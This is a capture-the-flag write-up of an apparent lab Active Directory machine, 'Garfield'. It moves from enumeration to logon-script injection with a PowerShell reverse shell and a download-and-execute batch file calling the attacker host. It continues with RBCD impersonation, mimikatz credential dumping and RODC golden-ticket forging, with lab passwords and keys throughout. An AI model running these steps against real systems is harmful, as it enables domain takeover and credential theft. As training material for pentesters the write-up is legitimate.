

Given Credentials
 j.arbuckle / Th1sD4mnC4t!@1978
## Nmap Scan

```bash

nmap -p- 10.129.27.1 -Pn -A -T4 -oA garfield_scan
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-11 09:07:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-04-11T09:08:54+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-11T09:08:15+00:00
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Not valid before: 2026-02-13T01:10:36
|_Not valid after:  2026-08-15T01:10:36
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49903/tcp open  msrpc         Microsoft Windows RPC

```

|Port|Service|Notes|
|---|---|---|
|53|DNS|Standard DC|
|88|Kerberos|Standard DC|
|389/636|LDAP/LDAPS|Standard DC|
|445|SMB|Standard DC|
|3389|RDP|Standard DC|
|5985|WinRM|Remote management|
|**2179**|**vmrdp**|**Hyper-V — internal VMs!**|

### Bloodhound Enumeration

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ sudo ntpdate 10.129.27.1  
[sudo] password for penguin: 
2026-04-13 01:35:15.743618 (+0100) +28998.892926 +/- 0.012980 10.129.27.1 s1 no-leap
CLOCK: time stepped by 28998.892926

```
Syncing time with DC

```bash

┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ bloodhound-python -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb -dc DC01.garfield.htb -ns 10.129.27.1 -c All --zip

```



Nothing specfic from bloodhound
#### Manual ACL Enumeration with bloodyAD

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ bloodyAD -u j.arbuckle -p 'Th1sD4mnC4t!@1978'-d garfield.htb --host DC01.garfield.htb get writable


distinguishedName: CN=Guest,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Jon Arbuckle,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
permission: WRITE

```

`bloodyAD get writable` shows j.arbuckle can write to l.wilson's AD object. The `scriptPath` attribute specifically controls what script executes when the user logs in. Can be abused this by

1. Uploading a reverse shell bat file to SYSVOL
2. Setting l.wilson's `scriptPath` to point to our bat file
3. Waiting for the scheduled task to trigger l.wilson's logon

#### Logon Script Injection (Initial Foothold)

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ cat > shell.ps1 << 'EOF'

$c=New-Object Net.Sockets.TCPClient('10.10.16.99',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$s.Write([text.encoding]::ASCII.GetBytes($r2),0,$r2.Length);$s.Flush()};$c.Close()

EOF

```

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ printf '@echo off\npowershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('"'"'http://10.10.16.99/shell.ps1'"'"')"' > shell.bat

```

`Terminal 1` --> Shell
```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

`Terminal 2` --> Server to serve shell.ps1

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

#### Upload to SYSVOL

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ smbclient //DC01.garfield.htb/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c 'cd garfield.htb\scripts; put shell.bat shell.bat'                                                               
putting file shell.bat as \garfield.htb\scripts\shell.bat (1.3 kB/s) (average 1.3 kB/s)

```

#### Set l.wilson's Logon Script
```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ bloodyAD -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb --host DC01.garfield.htb set object l.wilson scriptPath -v 'shell.bat'
[+] l.wilson's scriptPath has been updated
```


l.wilson has **forceChangePassword** authority over l.wilson_adm

```Powershell
PS C:\Windows\system32> $SecPass = ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force
PS C:\Windows\system32> Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $SecPass -Reset
PS C:\Windows\system32> 

```

Or we can change it use **nxc** from the linux machine

Verifying using **winrm** login using **nxc**
```bash

┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ nxc winrm DC01.garfield.htb -u l.wilson_adm -p 'NewP@ss123!'

WINRM       10.129.27.1     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:garfield.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.27.1     5985   DC01             [+] garfield.htb\l.wilson_adm:NewP@ss123! (Pwn3d!)

```

Logging in with evil-winrm

```Poweshell
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> cat C:\Users\l.wilson_adm\Desktop\user.txt
403d9281fb7660a87649bab901756a2e
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> whoami
garfield\l.wilson_adm
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> 

```


#### Enumeration from l.wilson_adm

```bash
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> ipconfig /all
 

Windows IP Configuration

   Host Name . . . . . . . . . . . . : DC01
   Primary Dns Suffix  . . . . . . . : garfield.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : garfield.htb
                                       .htb

Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Hyper-V Virtual Ethernet Adapter
   Physical Address. . . . . . . . . : 00-15-5D-0B-DD-00
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::c4ff:5747:1d3c:fba0%9(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.100.1(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   DHCPv6 IAID . . . . . . . . . . . : 201332061
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-30-2E-A4-E0-00-0C-29-D3-19-3C
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0 3:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-94-20-C0
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::ae3:8a2b:e257:ea2f(Preferred)
   Link-local IPv6 Address . . . . . : fe80::9484:7a88:9224:9844%7(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.129.27.1(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Sunday, April 12, 2026 5:25:43 PM
   Lease Expires . . . . . . . . . . : Monday, April 13, 2026 12:55:38 AM
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe94:9b51%7
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 234901590
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-30-2E-A4-E0-00-0C-29-D3-19-3C
   DNS Servers . . . . . . . . . . . : 127.0.0.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

```

#### Enumerate domain computers
```bash
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> Get-ADComputer -Filter * -Properties IPv4Address | Select Name, IPv4Address
 

Name   IPv4Address
----   -----------
DC01   10.129.27.1
RODC01 192.168.100.2

```

DC01 has a **Hyper-V Virtual Ethernet Adapter** (`vEthernet Switch01`) on `192.168.100.1`  this is the internal Hyper-V switch. RODC01 lives at `192.168.100.2` on this internal network, **not reachable directly from Kali**.

This is why nmap showed port **2179 (vmrdp)**  it's the Hyper-V VM remote desktop protocol. We need to tunnel through DC01 to reach RODC01.

#### Ligolo Setup

`Terminal 1`  --> ligolo proxy setup


```bash
cd ~
./proxy -selfcert -laddr 0.0.0.0:11601
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2

ligolo-ng » INFO[0285] Agent joined.                                 id=00155d0bdd00 name="GARFIELD\\l.wilson_adm@DC01" remote="10.129.27.1:62030"                                                                
ligolo-ng » session
? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.129.27.1:62030 - 00155d0bdd00
[Agent : GARFIELD\l.wilson_adm@DC01] » start
INFO[0310] Starting tunnel to GARFIELD\l.wilson_adm@DC01 (00155d0bdd00) 
[Agent : GARFIELD\l.wilson_adm@DC01] »  


```

`Terminal --> 2` Upload & Run Agent

```bash
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> upload /home/penguin/Downloads/agent.exe

Info: Uploading /home/penguin/Downloads/agent.exe to C:\Users\l.wilson_adm\Documents\agent.exe           
Data: 8925864 bytes of 8925864 bytes copied Info: Upload successful!  
                                                                               
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> .\agent.exe -connect 10.10.16.99:11601 -ignore-cert
agent.exe : time="2026-04-13T00:30:04-07:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-04-1...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-04-13T00:30:04-07:00" level=info msg="Connection established" addr="10.10.16.99:11601"

```

On Kali - Add Route
```bash
┌──(penguin㉿0X0F)-[~]
└─$ sudo ip route add 192.168.100.0/24 dev ligolo
```
#### Verify Connectivity

```bash
┌──(penguin㉿0X0F)-[~]
└─$ ping 192.168.100.2

PING 192.168.100.2 (192.168.100.2) 56(84) bytes of data.
64 bytes from 192.168.100.2: icmp_seq=1 ttl=64 time=82.3 ms
64 bytes from 192.168.100.2: icmp_seq=2 ttl=64 time=90.6 ms
64 bytes from 192.168.100.2: icmp_seq=3 ttl=64 time=88.7 ms
^C
--- 192.168.100.2 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 82.303/87.177/90.564/3.532 ms

```

```bash
┌──(penguin㉿0X0F)-[~]
└─$ nmap -p 445,5985,88,80,8080 192.168.100.2 -Pn -T4
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-13 08:32 +0100
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 80.00% done; ETC: 08:32 (0:00:00 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 08:32 (0:00:00 remaining)
Nmap scan report for 192.168.100.2
Host is up (0.13s latency).

PORT     STATE    SERVICE
80/tcp   filtered http
88/tcp   open     kerberos-sec
445/tcp  open     microsoft-ds
5985/tcp open     wsman
8080/tcp filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 2.44 seconds

```

#### RBCD Attack on RODC01

RODC01 is reachable via tunnel. We abuse **Resource-Based Constrained Delegation (RBCD)** to impersonate Administrator and get SYSTEM on RODC01.

Create a fake computer account -> set it as allowed to delegate to RODC01 -> request a service ticket impersonating Administrator -> use ticket to get shell

#### Create Fake Computer Account
```bash
┌──(penguin㉿0X0F)-[~]
└─$ impacket-addcomputer garfield.htb/l.wilson_adm:'NewP@ss123!' \-computer-name 'FAKE$' -computer-pass 'FakePass123!' -dc-ip 10.129.27.1                                       
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FAKE$ with password FakePass123!.

```

#### Set RBCD on RODC01
```bash
┌──(penguin㉿0X0F)-[~]
└─$ impacket-rbcd garfield.htb/l.wilson_adm:'NewP@ss123!' -delegate-to 'RODC01$'  -delegate-from 'FAKE$' -action write -dc-ip 192.168.100.2                                              
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKE$ can now impersonate users on RODC01$ via S4U2Proxy
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty

```

#### Get Impersonation Ticket

```bash
┌──(penguin㉿0X0F)-[~]
└─$ impacket-getST garfield.htb/'FAKE$':'FakePass123!' -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.27.1                                                 
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

#### PSExec as SYSTEM

```bash
┌──(penguin㉿0X0F)-[~]
└─$ echo "192.168.100.2 RODC01.garfield.htb RODC01" | sudo tee -a /etc/hosts

192.168.100.2 RODC01.garfield.htb RODC01
```
add internal hostnames to `/etc/hosts`

```bash
┌──(penguin㉿0X0F)-[~]
└─$ impacket-psexec -k -no-pass garfield.htb/Administrator@RODC01.garfield.htb  -dc-ip 10.129.27.1 
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on RODC01.garfield.htb.....
[*] Found writable share ADMIN$
[*] Uploading file dkwOtEJl.exe
[*] Opening SVCManager on RODC01.garfield.htb.....
[*] Creating service COrV on RODC01.garfield.htb.....
[*] Starting service COrV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8511]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

`Terminal 1` --> From System shell

```bash
C:\Windows\system32> certutil -urlcache -f http://10.10.16.99/mimikatz.exe mimikatz.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Windows\system32> 

```

`Terminal 2` - Python Server
```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/Garfield]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.27.1 - - [13/Apr/2026 08:42:19] "GET /mimikatz.exe HTTP/1.1" 200 -
10.129.27.1 - - [13/Apr/2026 08:42:19] "GET /mimikatz.exe HTTP/1.1" 200 -
```

#### running the  mimikatz 
```bash
C:\Windows\system32> .\mimikatz.exe
 
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/


mimikatz # 
privilege::debug
mimikatz # Privilege '20' OK

lsadump::lsa /inject /name:krbtgt_8245
mimikatz # Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357
```

| Key Type    | Value                                                              |
| ----------- | ------------------------------------------------------------------ |
| **NTLM**    | `445aa4221e751da37a10241d962780e2`                                 |
| **AES256**  | `d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240` |
| AES128      | `124c0fd09f5fa4efca8d9f1da91369e5`                                 |
| Salt        | `GARFIELD.HTBkrbtgt_8245`                                          |
| RID         | `1603` (decimal) / `0x643`                                         |
| rodcNumber  | `8245`                                                             |

Results from the mimikatz

#### Modify RODC Password Replication Policy (PRP)

For the KeyList attack to work, Administrator must be **allowed** to have credentials replicated to RODC01. By default, Domain Admins are **blocked** via the Denied RODC Password Replication Group. We need to

- Add Administrator to `msDS-RevealOnDemandGroup` on RODC01
- Clear `msDS-NeverRevealGroup` on RODC01 (removes the deny lis
- 
The RODC checks two attributes on its computer object:
- `msDS-RevealOnDemandGroup` -> Allow list
- `msDS-NeverRevealGroup` -> Deny list (takes precedence)

Administrator is a member of Domain Admins -> in the Denied group ->blocked by default. We must clear the NeverReveal list to allow it

#### From RODC01 SYSTEM shell
```Powershell
C:\Windows\system32> powershell -c "Add-ADGroupMember -Identity 'RODC Administrators' -Members 'l.wilson_adm' -Credential (New-Object System.Management.Automation.PSCredential('garfield\l.wilson_adm', (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force))) -Server DC01.garfield.htb"

```
#### Add Administrator to Allow List

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ ldapmodify -H ldap://DC01.garfield.htb -D "garfield\l.wilson_adm" -w 'NewP@ss123!' << 'EOF' 
dn: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
changetype: modify
add: msDS-RevealOnDemandGroup
msDS-RevealOnDemandGroup: CN=Administrator,CN=Users,DC=garfield,DC=htb
EOF

modifying entry "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb"
```

#### Check what's blocking
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ ldapsearch -H ldap://DC01.garfield.htb -D "garfield\l.wilson_adm" -w 'NewP@ss123!' -b "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" msDS-NeverRevealGroup 
# extended LDIF
#
# LDAPv3
# base <CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: msDS-NeverRevealGroup 
#

# RODC01, Domain Controllers, garfield.htb
dn: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Denied RODC Password Replication Group,CN=Users,DC=g
 arfield,DC=htb
msDS-NeverRevealGroup: CN=Account Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Server Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb
msDS-NeverRevealGroup: CN=Administrators,CN=Builtin,DC=garfield,DC=htb

# Windows Virtual Machine, RODC01, Domain Controllers, garfield.htb
dn: CN=Windows Virtual Machine,CN=RODC01,OU=Domain Controllers,DC=garfield,DC=
 htb

# DFSR-LocalSettings, RODC01, Domain Controllers, garfield.htb
dn: CN=DFSR-LocalSettings,CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb

# Domain System Volume, DFSR-LocalSettings, RODC01, Domain Controllers, garfiel
 d.htb
dn: CN=Domain System Volume,CN=DFSR-LocalSettings,CN=RODC01,OU=Domain Controll
 ers,DC=garfield,DC=htb

# SYSVOL Subscription, Domain System Volume, DFSR-LocalSettings, RODC01, Domain
  Controllers, garfield.htb
dn: CN=SYSVOL Subscription,CN=Domain System Volume,CN=DFSR-LocalSettings,CN=RO
 DC01,OU=Domain Controllers,DC=garfield,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 5
```
#### Remove each blocking entry

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ ldapmodify -H ldap://DC01.garfield.htb -D "garfield\l.wilson_adm" -w 'NewP@ss123!' << 'EOF'
dn: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
changetype: modify
delete: msDS-NeverRevealGroup
msDS-NeverRevealGroup: CN=Denied RODC Password Replication Group,CN=Users,DC=garfield,DC=htb
-
delete: msDS-NeverRevealGroup
msDS-NeverRevealGroup: CN=Administrators,CN=Builtin,DC=garfield,DC=htb
-
delete: msDS-NeverRevealGroup
msDS-NeverRevealGroup: CN=Account Operators,CN=Builtin,DC=garfield,DC=htb
-
delete: msDS-NeverRevealGroup
msDS-NeverRevealGroup: CN=Server Operators,CN=Builtin,DC=garfield,DC=htb
-
delete: msDS-NeverRevealGroup
msDS-NeverRevealGroup: CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb
EOF


modifying entry "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb"

```

#### Verify
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ ldapsearch -H ldap://DC01.garfield.htb -D "garfield\l.wilson_adm" -w 'NewP@ss123!' -b "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" msDS-RevealOnDemandGroup msDS-NeverRevealGroup 
# extended LDIF
#
# LDAPv3
# base <CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: msDS-RevealOnDemandGroup msDS-NeverRevealGroup 
#

# RODC01, Domain Controllers, garfield.htb
dn: CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,
 DC=garfield,DC=htb
msDS-RevealOnDemandGroup: CN=Administrator,CN=Users,DC=garfield,DC=htb

# Windows Virtual Machine, RODC01, Domain Controllers, garfield.htb
dn: CN=Windows Virtual Machine,CN=RODC01,OU=Domain Controllers,DC=garfield,DC=
 htb

# DFSR-LocalSettings, RODC01, Domain Controllers, garfield.htb
dn: CN=DFSR-LocalSettings,CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb

# Domain System Volume, DFSR-LocalSettings, RODC01, Domain Controllers, garfiel
 d.htb
dn: CN=Domain System Volume,CN=DFSR-LocalSettings,CN=RODC01,OU=Domain Controll
 ers,DC=garfield,DC=htb

# SYSVOL Subscription, Domain System Volume, DFSR-LocalSettings, RODC01, Domain
  Controllers, garfield.htb
dn: CN=SYSVOL Subscription,CN=Domain System Volume,CN=DFSR-LocalSettings,CN=RO
 DC01,OU=Domain Controllers,DC=garfield,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 5
```

**l.wilson_adm** has WRITE on RODC01's computer object (from `bloodyAD get writable`). This allows us to modify the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes directly via ldapmodify. This is a non-standard privilege normally only Domain Admins can modify these attributes.


#### Upload Invoke-Rubeus to RODC01

```bash
C:\Windows\system32> certutil -urlcache -f http://10.10.16.99/Invoke-Rubeus.ps1 C:\Windows\Temp\Invoke-Rubeus.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
#### Forge RODC Golden Ticket
```shell
C:\Windows\system32> powershell -c "Import-Module C:\Windows\Temp\Invoke-Rubeus.ps1; Invoke-Rubeus -Command 'golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /nowrap'"
 
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.1 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : GARFIELD.HTB (GARFIELD)
[*] SID            : S-1-5-21-2502726253-3859040611-225969357
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : garfield.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@garfield.htb'

[*] AuthTime       : 4/13/2026 1:03:00 AM
[*] StartTime      : 4/13/2026 1:03:00 AM
[*] EndTime        : 4/13/2026 11:03:00 AM
[*] RenewTill      : 4/20/2026 1:03:00 AM

[*] base64(ticket.kirbi):

      doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB70MeDv6HkZ+gnwmnJrswUjjsChsOXOmtT/Zfgknss1rAVoKGgMSPr8oZqHlornnPvw6DSTzJt96pXVrd5vyHort23mRQjsJvZA2Ot+lrM/5mPAYrf8Gkc68U7IOISGx9ZsmBXRDAdqJUUVUSfojxAsi3nV+e4rzFebOSrJPH+d2yl2rlEY9IDcSPp2xG4Mxxul2Zxo88Jbg6to00zI66mtKbmZukE1kzXgDlgKYJLwHAqMgdDesokP2lNRsxPXSJDZBzWvIZT966SeU9DhUF+QIZZBRovkvS9hQ/GsJBLQcu4BaPsjbAuWedPIfX/V/4VpQlpPVWV4KXMau2MWi4BxtRsd3FPOGS0JitQSHbLuaFR5gkPUfo3SCegXnnLm/MHRFuw7EukvCiA7F/MgEa1qhfyQt2amvkNvlLsDRz8tMYUG2DPY49YLcZYEFGVXrGSxrGNbjxdACw/6WC+rJOxXJ/D/v7jnXdBaYqxmlF7CRjoDZ5Oqvyggy1NaB45kN3HUgyCtXWHDOl0rE6ZWFj6iN81i7bOS1uBpdtvXvelN/5167bX81FcWVfHXXN2l6NK1yzFjQPssQf6kHR7NYfaawcuAdQ6cxuaCcPje+5+MHr8wH+CI7PlVuPdtqkQtf1jyo3yGzd6OXIs6q+lKAB9HPojsl2rmm1Abj/u4XIZDDDSXHopc2kYJdQ4Ibghl8Wj+SL/OXPCSUuvyq/cchyYY3K2Mt1vQE94HzfAf5H0gPnnUVnJzyPpay/14